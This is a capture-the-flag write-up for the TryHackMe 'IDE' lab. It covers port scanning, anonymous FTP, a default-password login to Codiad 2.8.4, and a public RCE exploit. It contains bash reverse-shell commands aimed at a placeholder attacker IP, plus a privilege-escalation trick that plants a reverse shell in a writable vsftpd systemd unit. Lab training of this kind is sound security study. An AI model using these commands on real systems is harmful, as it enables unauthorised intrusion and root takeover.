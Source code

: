 # IDE
This writeup is intended for IDE room in [TryHackMe](https://tryhackme.com).

Table of Contents
=================
* [URL](#URL)
* [Introduction](#Introduction)
	* [Port scan](#Port-scan)
	* [Further port scan](#Further-port-scan)
* [FTP login](#FTP-login)
* [HTTP login](#HTTP-login)
* [Exploiting HTTP server](#Exploiting-HTTP-server)
* [Privillege Escalation](#Privillege-Escalation)
	* [Home Directory](#Home-Directory)
	* [SSH Login](#SSH-Login)
	* [FTP Exploitation](#FTP-Exploitation)

# URL

URL to the IDE room is: https://tryhackme.com/room/ide

# Introduction

IDE is an easy difficulty box intended for further developing enumeration skills.
The task is to gain shell access on the box and escalate privilleges.

## Port scan
I started this room with simple port scan using `nmap`. The command I have used was `sudo nmap -vv -sS -oN -p- initial_scan.txt IP`. Explanation of the used flags is presented below:

```
sudo - gives nmap root privilleges.
-vv - verbosity. Prints out more information about what the nmap scan is doing.
-sS - SYN (stealth) scan. Checks the status of ports by initiating TCP connections but never completing them.
-p- - specify ports to be scanned. Hyphen (-) indicates to scan all 65535 ports.
-oN - normal output is redirected to a given filename (in this case - initial_scan.txt).
IP - IP address of the target machine.
```

Finished scan found ***4*** open TCP ports. These ports are: ***21***, ***22***, ***80*** and ***62337***.

## Further port scan

Now let's do a more throughout scan of these ports with the command `nmap -vv -A -p 21,22,80,62337 -oN open_ports.txt IP`. Expanation for this command is presented below:

```
-vv - verbosity. Prints out more information about what the nmap scan is doing.
-A - aggresive scan options. Enables OS edection (-O), version scanning (-sV), script scanning (-sC) and traceroute (--traceroute) flags.
-p - specify ports to scan.
-oN - normal output is redirected to a given filename (in this case - open_ports.txt).
IP - IP address of the target machine.
```

This scan gave more information about the ports open and services running on top of them. Let's take a look at the newly found information:
1. Port `21` is running FTP service and it's version `vsftpd 3.0.3`.
	a. ftp-anon script scan results indicates that Anonymous FTP login is allowed.
2. Port `22` is running SSH service.
3. Port `80` is running Apache HTTP service.
4. Port `62337` is running another HTTP service.
	a. http-title of this server is Codiad 2.8.4. This specific version of Codiad has a vulnerability which allows Remote Code Execution (RCE) attacks and is a possible attack vector for privillege escalation on this system.

# FTP login

Next I will try anonymous login to the FTP service. The command for connecting to the FTP server is `ftp IP`, where `IP` is IP address of the target machine. When prompted for Username, type `anonymous` and leave the Password field empty.
When I had logged in to the FTP server, strangely I found no files in here. So I have used the `ls -lah` command for more information and found ***three*** directories here:
1. `.` and `..` are standard directories on UNIX-like operating systems.
2. `...` is ***not*** a standard directory.
I went to this directory with `cd` command and found a `-` file, which I have downloaded to host machine with FTP's `GET` command.
Then I have changed the name of the file from `-` to a `file` and gave it a `.txt` extension.
After that I have opened the file with a text editor and found a message in here:

```
Hey john,
I have reset the password as you have asked. Please use the default password to login.
Also, please take care of the image file ;)
- drac.
```

This gives us a couple of usernames - `john` and `drac`. Also, it says that the password for user `john` has been reset and is set to default. Likely, this is the user of the webserver at port `62337`. Well, if the user has default password, it should not be hard to guess it... :)

# HTTP login

So I have logged into the server via `Firefox` browser with the username `john` and password `password` and it opens an web-based ***Codiad 2.8.4*** administration panel with some python scripts. Based on the scripts, this server is used for controlling IP cameras and is the one we need to gain shell access to.

# Exploiting HTTP server

The specific Codiad version used in this box has a well described remote shell upload vulnerability, for which the code can be found [on the exploit-db site here](https://www.exploit-db.com/exploits/49705).
	So, I have downloaded this exploit to the attackbox and named it `codiad_exploit.py`. Following parameters needs to be specified for the script to run successfully:
1. ***URL*** of the target webserver. It consists of ***IP address*** and the ***Port number*** of the target webserver.
2. ***Username*** of the webserver's user.
3. ***Password*** of the same user.
4. ***IP address*** of the attacking machine.
5. ***Port*** that is used to listen to the reverse shell.
6. ***Platform*** that is running on the server (Windows or Linux).
7. When I opened Codiad administration panel within Firefox I found out that the files within the server are located in `/var/www/html` directory, so it can be conducted that this webserver is hosting Linux.

For succesfully running this exploit, ***3 terminal instances*** need to be used:
1. In ***the first terminal***, the command for server exploitation is constructed - `python3 codiad_exploit.py http://<target-ip>:<target-port> john [REDACTED] <attacker-ip> <listening-port> linux`.
2. From the exploit a reverse shell command is given to execute on a ***second terminal***. Command for this is: `echo 'bash -c "bash -i > /dev/tcp/<attacker-ip>/<listening-port>+1 0>&1 2>&1"' | nc -lnvp <listening-port>`.
3. On the ***third terminal*** a ***netcat listener*** is set up. Command for this is `nc -lnvp <listening-port>+1`.

After the payload is sent, on the terminal with netcat listener there is an access to the target's shell - `www-data@ide`.

# Privillege Escalation

## Home Directory

Now it is necessary to navigate to the webserver's ***home*** directory. There is the folder for user `drac`. Within this directory there is the `user.txt` file. Although permission to view this file is denied at this stage. Luckily, `.bash_history` file is readable and contains the `mysql` user `drac` and this user's password.

## SSH Login

Although previously found credentials were intended for mysql, I have tried to SSH into the webserver with them and I succeeded to do that. Now I am inside a directory, where I ***have*** permissions to read `user.txt` file. Now it is possible to read this flag - a task that I will leave to the reader :)

## FTP Exploitation

By further analyzing the compromised system I was able to find out that the user `drac` is able to run `sudo` command. On `ide` server it can run `/usr/sbin/service vsftpd restart` command.
By using `locate` command I will search for `vsftpd.service` file.
The command gives back a bunch of `vsftpd.service` files but the most interesting one is located at `/lib/systemd/system/vsftpd.service` - this one can be written to by the user `drac`. It is possible to add a ***reverse shell payload*** to this file, so that when the FTP service is restarted, the server automatically connects to the listener that was set up earlier and gives root access to it.
When this file is opened, `ExecStart=` command needs to be changed to the reverse shell payload:

`ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/<attacker-ip>/<listening-port>+1 0>&1'`

Save the file and restart FTP service with `sudo /usr/sbin/service vsftpd restart`. It gives a warning to reload units with `systemctl daemon-reload`. Reload the units and restart the FTP service again. Volia, the netcat listener should have access to the root shell of the webserver!
Now navigate to the `root` folder and grab the flag from the `root.txt`file :)
